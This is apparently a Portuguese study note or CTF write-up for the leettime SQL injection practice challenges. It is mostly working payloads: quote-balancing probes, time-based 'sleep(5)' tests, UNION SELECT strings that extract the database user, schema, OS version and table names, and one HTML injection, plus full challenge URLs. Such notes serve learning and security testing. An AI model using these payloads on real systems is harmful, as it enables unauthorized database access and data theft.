 # leettime

DB : TABELA : COLUNA : LINHA
                              
select **COLUNA0,COLUNA1** from **TABELA0**
                                       
select * from **notas** where **IDaluno=1337 **         

select * from notas where IDaluno='1337'
                                          
select * from notas where IDaluno="1337"
                                             
select * from notas where IDaluno=(1337)
                        
select * from notas where IDaluno('1337')
                                                                                                     
select * from notas where IDaluno("1337")    
                                                 
?id=????              

```
________________________________________                                                              
     TABELA0         |   TABELA2        |                                                             
_____________________|__________________|                                                             
COLUNA1  |   COLUNA2 | COLUNA1 | COLUNA2|
---------------------|------------------|
 LINHA1  |   LINHA1  | [...]   | [...]
 LINHA2  |   LINHA2  |
             LINHA3  |
```
```
COMENTARIOS: -- | # | ;%00 | `

SQLI: select * from username where id=1

SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

SQLI: select * from username where id=1

SQLI: select nome from username where id=injection

id=1' and sleep(5)--+a   <<<<<< FACA ISSO SEMPRE


1- BALANCEIO | 2- INJECTION | 3-COMENTARIO

---------------------------------------------

UNION IDENTIFIQUE,<<<<<<<<<<<<

id=1' order by 1 --+anakein

?id=64' union select 13,<h1>PWN</h1>,3--+anakein      <<< XSS

?id=null' union select 66,user(),66--+anakein

?id=null' union select 66,database(),66--+anakein

?id=null' union select 66,concat(@@version_compile_os,0x20,@@version_compile_machine),66--+anakein

?id=null' union select 66,concat(select table_name from information_schema.tables where database()),66
```

## Basic Injection

#### Challenge 1 >> '
```
http://leettime.net/sqlninja.com/tasks/basic_ch1.php?id=null' union select 66,(select table_name from information_schema.tables where table_schema=database() limit 2,1),66--+anakein
```

![list_table1](https://raw.githubusercontent.com/e-anakein/leettime/master/images/photo_2019-05-24_22-51-48.jpg)

#### Challenge 3  >> "

```
http://leettime.net/sqlninja.com/tasks/basic_ch3.php?id=1" and sleep(5)--+anakein
```

#### Challenge 4 >> ')

```
http://leettime.net/sqlninja.com/tasks/basic_ch4.php?id=1') and sleep(5) --+anakein
```

![chall_4](https://raw.githubusercontent.com/e-anakein/leettime/master/images/photo_2019-05-24_23-10-32.jpg)
